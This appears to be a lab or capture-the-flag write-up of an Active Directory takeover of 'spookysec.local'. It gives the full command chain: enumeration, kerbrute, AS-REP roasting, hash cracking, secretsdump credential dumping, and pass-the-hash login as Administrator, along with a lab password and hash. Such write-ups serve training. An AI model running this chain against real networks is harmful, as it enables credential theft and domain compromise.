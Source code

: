 Install impacket:
```
sudo su; apt-get update && apt-get upgrade;git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```
To install the Python requirements for Impacket:
```
pip3 install -r /opt/impacket/requirements.txt
```
Once the requirements have finished installing, we can then run the python setup install script:
```
cd /opt/impacket/ && python3 ./setup.py install
```
Install bloodhound and neo4j
```
apt install bloodhound neo4j
```
We use nmap and enum4linux to enumerate the machine.
```
nmap -sV -sC -Pn -T5 10.10.62.43
```
```
enum4linux 10.10.62.43
```
Since the port for kerberos was opened we were able to use kerbrute for user enumeration.

```
./kerbrute userenum --dc 10.10.62.43 -d spookysec.local userlist.txt
```
We then used the command: 
```
python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.62.43
```
On the svc-admin user to get a hash. We then decrypted the hash with john ro get the password for the user.
```
john admin.hash --wordlist=/home/blackzero/rockyou.txt 
```
we also used hashcat:
```
hashcat -m 18200 admin.hash passwordlist.txt
```
With the password we attained we then logged into the smbclient and found a file with a base64 encoded message
```
smbclient -L <target ip> -U svc-admin
```
```
smbclient \\\\<target ip>\\backup -U svc-admin
```
we decoded the hash with Cyberchef 
and got the credentials for the user backup.

afterwards we used secretsdump.py to dump the hashes for the users and attained the administrators hash
```
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.62.43
```
Then we logged in as the administrator with the hash using evil-wnrm.
```
evil-winrm -i 10.10.62.43 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
We are now logged in as the Administrator with administrator priveldges and have fully compromised the directory; action is no longer required.
